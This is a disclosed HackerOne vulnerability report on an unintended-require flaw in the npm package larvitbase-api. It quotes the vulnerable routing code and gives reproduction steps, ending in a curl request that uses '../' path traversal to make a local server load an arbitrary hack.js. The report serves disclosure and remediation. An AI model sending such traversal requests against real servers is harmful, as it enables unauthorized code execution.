 # [larvitbase-api] Unintended Require

## Report Details
- **Report ID**: 566056
- **URL**: https://hackerone.com/reports/566056
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-05-04T10:15:45.993Z
- **Disclosed**: 2019-08-20T07:30:29.330Z

## Reporter
- **Username**: ermilov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Unintended Require vulnerability in `larvitbase-api`
It allows loading arbitary non-production code (js files).

# Module

**module name:** larvitbase-api
**version:** 0.5.3
**npm page:** `https://www.npmjs.com/package/larvitbase-api`

## Module Description

REST http API base framework based on larvitbase (https://github.com/larvit/larvitbase)

## Module Stats

59 downloads in the last day
250 downloads in the last week
715 downloads in the last month

# Vulnerability

## Vulnerability Description

`larvitbase-api` is an HTTP server which dynamically loads (with help of `require()`) some parts of the code. As long as the path to required module is partially depend on the url (req.urlBase), anybody can cause code to load that was not intended to run on the server.

source code example:

https://github.com/larvit/larvitbase-api/blob/master/index.js#L183
```
req.routed = {
	controllerFullPath: path.join(altControllerPaths[i], req.urlBase) + '.js',
	controllerPath: req.urlBase
};
```

https://github.com/larvit/larvitbase-api/blob/master/index.js#L210
```
require(req.routed.controllerFullPath)(req, res, cb);
```

Detailed description of this bug can be found here: https://nodesecroadmap.fyi/chapter-1/threat-UIR.html

## Steps To Reproduce:

* create directory for testing
```
mkdir poc
cd poc/
```

* install package
```
npm i larvitbase-api
```

* create index.js file with default usage of larvitbase-api

index.js (example code form https://www.npmjs.com/package/larvitbase-api)
```
const	Api	= require('larvitbase-api');

let	api;

api = new Api({
    'baseOptions':	{'httpOptions': 8001},
    'routerOptions':	{},
    'reqParserOptions':	{},
});

api.start(function (err) {});
```

* create hack.js file with some arbitary code for testing

hack.js
```
console.log('pwned');
```

* start index.js
```
node index.js
```

* send crafted request to web app (localhost:8001 by deafult) in order to force using of hack.js script
```
curl --path-as-is 'http://localhost:8001/../../../../../../hack'
```

* index.js should log something like this to terminal:
```
pwned
                        require(req.routed.controllerFullPath)(req, res, cb);
TypeError: require(...) is not a function
```

## Patch

## Supporting Material/References:

- OS: Linux Mint current
- Node.js: 8.11.1
- NPM: 6.4.0

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

An attacker is able to control the x in require(x) and cause code to load that was not intended to run on the server.

## Attachments
No attachments
